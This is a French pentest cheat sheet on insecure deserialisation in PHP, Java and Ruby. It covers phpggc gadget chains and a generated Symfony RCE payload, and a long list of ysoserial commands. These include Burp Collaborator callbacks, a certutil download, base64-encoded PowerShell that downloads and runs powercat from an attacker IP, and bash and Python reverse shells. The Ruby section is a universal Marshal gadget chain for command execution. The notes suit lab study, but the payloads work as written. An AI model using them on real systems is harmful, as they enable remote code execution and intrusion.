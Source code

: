 ## PHP Deserialisation

Exemple : `O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`

- `O:4:"User"` : Un objet avec un nom de classe de 4 caractères "User"
- `2` : L'objet a deux propriétés
- `s:4:"name"` : Le nom du premier attribut est composé de 4 caractères "name"
- `s:6:"carlos"` : La valeur de l'attribut est composé de 6 caractères "carlos"
- `s:10:"isLoggedIn"` : Le nom du second attribut est composé de 10 caractères "isLoggedIn"
- `b:1` : La valeur de l'attribut est un booléen à true

### Fonctions de sérailisation et désérialisation

- `serialize()` : Retourne une chaîne de caractères contenant une représentation sérialisée de la valeur passée en paramètre.
- `unserialize()` : Retourne la valeur initiale d'une variable qui a été sérialisée.

### Fonctions magiques

Les fonctions magiques sont des fonctions qui sont appelées automatiquement à l'instanciation d'un objet.

Par exemple :

```php
class User {
    public $name;
    public $isLoggedIn;

    public function __construct($name) {
        $this->name = $name;
        $this->isLoggedIn = false;
    }
}
```

La fonction `__construct()` est appelée automatiquement lors de l'instanciation de l'objet.

### Outils pour la sérialisation

- (phpggc)[https://github.com/ambionics/phpggc]

```bash
$ ./phpggc -l

Gadget Chains
-------------

NAME                                      VERSION                                              TYPE                   VECTOR         I    
Bitrix/RCE1                               17.x.x <= 22.0.300                                   RCE (Function call)    __destruct          
CakePHP/RCE1                              ? <= 3.9.6                                           RCE (Command)          __destruct          
CakePHP/RCE2                              ? <= 4.2.3                                           RCE (Function call)    __destruct          
CodeIgniter4/FR1                          4.0.0 <= 4.3.6                                       File read              __toString     *    
CodeIgniter4/RCE1                         4.0.2 <= 4.0.3                                       RCE (Function call)    __destruct          
CodeIgniter4/RCE2                         4.0.0-rc.4 <= 4.3.6                                  RCE (Function call)    __destruct          
CodeIgniter4/RCE3                         4.0.4 <= 4.3.6                                       RCE (Function call)    __destruct          
CodeIgniter4/RCE4                         4.0.0-beta.1 <= 4.0.0-rc.4                           RCE (Function call)    __destruct          
CodeIgniter4/RCE5                         -4.1.3+                                              RCE (Function call)    __destruct          
CodeIgniter4/RCE6                         -4.1.3 <= 4.2.10+                                    RCE (Function call)    __destruct          
Doctrine/FW1                              ?                                                    File write             __toString     *    
Doctrine/FW2                              2.3.0 <= 2.4.0 v2.5.0 <= 2.8.5                       File write             __destruct     *    
Doctrine/RCE1                             1.5.1 <= 2.7.2                                       RCE (PHP code)         __destruct     *    
Doctrine/RCE2                             1.11.0 <= 2.3.2                                      RCE (Function call)    __destruct     *    
Dompdf/FD1                                1.1.1 <= ?                                           File delete            __destruct     *    
...
```

```bash
$./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt'

O:47:"Symfony\Component\Cache\Adapter\TagAwareAdapter":2:{s:57:"Symfony\Component\Cache\Adapter\TagAwareAdapterdeferred";a:1:{i:0;:33:"Symfony\Component\Cache\CacheItem":2:{s:11:"*poolHash";i:1;s:12:"*innerItem";s:26:"rm /home/carlos/morale.txt";}}s:53:"Symfony\Component\Cache\Adapter\TagAwareAdapterpool";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":2:{s:54:"Symfony\Component\Cache\Adapter\ProxyAdapterpoolHash";i:1;s:58:"Symfony\Component\Cache\Adapter\ProxyAdaptersetInnerItem";s:4:"exec";}}
```

## Java Deserialisation

La sérialisation en Java n'est pas aussi facilement lisible que la sérialisation en PHP.

Cependant, il y a quelques indices qui nous indiquent que nous avons affaire à une sérialisation Java.

- `rO0` : C'est un en-tête de sérialisation Java encodé en base64.
- `ac ed` : C'est un en-tête de sérialisation Java encodé en hexadécimal.

### Fonctions de sérailisation et désérialisation

- `ObjectInputStream.readObject()` : Lit un objet à partir du flux d'entrée.
- `ObjectOutputStream.writeObject()` : Écrit un objet dans le flux de sortie.

### Outils pour la sérialisation

- [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial.jar)

**yoserial nécessite la version 8 de Java.**

```bash
# PoC to make the application perform a DNS req
java -jar ysoserial.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
# Ping
java -jar ysoserial.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
# Time, I noticed the response too longer when this was used
java -jar ysoserial.jar CommonsCollections4 "cmd /c timeout 5" > payload
# Create File
java -jar ysoserial.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
# DNS request
java -jar ysoserial.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
java -jar ysoserial.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
# Reverse Shell
## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
java -jar ysoserial.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
# Ping
java -jar ysoserial.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload 
# Time
## Using time in bash I didn't notice any difference in the timing of the response
# Create file
java -jar ysoserial.jar CommonsCollections4 "touch /tmp/pwn" > payload
# DNS request
java -jar ysoserial.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
java -jar ysoserial.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# Reverse shell
## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```

## Ruby désérialisation

Il existe un gadget chain universel pour Ruby :

```ruby
Gem::SpecFetcher
Gem::Installer
require "base64"
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end
wa1 = Net::WriteAdapter.new(Kernel, :system)
rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "PAYLOAD_HERE")
wa2 = Net::WriteAdapter.new(rs, :resolve)
i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")
n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)
t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)
r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)
payload = Marshal.dump({payload: [Gem::SpecFetcher, Gem::Installer, r]})
puts Base64.strict_encode64(payload)
```